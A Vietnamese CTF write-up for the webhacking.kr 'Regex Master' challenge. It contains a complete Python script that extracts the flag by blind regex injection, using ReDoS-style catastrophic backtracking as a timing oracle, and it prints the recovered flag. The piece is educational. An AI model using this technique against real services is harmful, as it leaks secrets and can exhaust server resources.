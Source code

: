 ```yaml
---
title: Regex Master - webhacking.kr
description: From webhacking.kr
author: to^
date: 2022-04-02 2:39:00 +0700
categories: [WebSec, CTF]
tags: [timing attack]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: blind_re_inject/webhackingkr_logo.png
 alt: webhackingkr logo
 width: 1000
 height: 400
---
```


## _Link challenge_
<http://regexmaster.webhacking.kr>

## _Source code_
![source_code](blind_re_inject/source_code.png)
_source code_

## _Phân tích_
Ở bài này source code rất đơn giản, chỉ kiểm tra xem biến flag có chứa chuỗi `parttern` (nhận từ GET request) hay không mà không hề xuất ra kết quả hay output nào khác.
Sau một hồi suy nghĩ thì mình quyết định thử khai thác bằng `blind regex injection` + `timing attack`
Để hiểu chi tiết hơn về kĩ thuật này các bạn có thể xem tại [đây](https://diary.shift-js.info/blind-regular-expression-injection/).

## _Khai thác_
```py
import requests
import sys
import time
import random
import string
import re

# constants
THRESHOLD = 1
url = 'http://regexmaster.webhacking.kr/?pattern='
# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    if c == '/':
        return ".{" + str(n-1) + "}" + '\/' + ".*$"
    if c == '\\':
        return ".{" + str(n-1) + "}" + '\\\\' + ".*$"
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})(((((.*)*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    # print(payload)
    try:
        r = requests.get(url+payload)
        duration = r.elapsed.total_seconds()
    except:
        duration = -1
        exit(1)
    # print(duration)
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 100
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
            break
    print("[+] length: {}".format(secret_length))

    flag = "FLAG{"
    for i in range(5, secret_length):
        stop = 0
        for c in range(32, 128):
            if prop_holds(nth_char_is(i+1, chr(c)), salt):
                flag += chr(c)
                print("[*] {}".format(flag))
                stop = 1
                break
    print("[+] Flag: {}".format(flag))  
```

> FLAG{im_r/e/g/e/x_master//_//}
{: .prompt-info  }
## _Tham khảo_
<https://diary.shift-js.info/blind-regular-expression-injection>
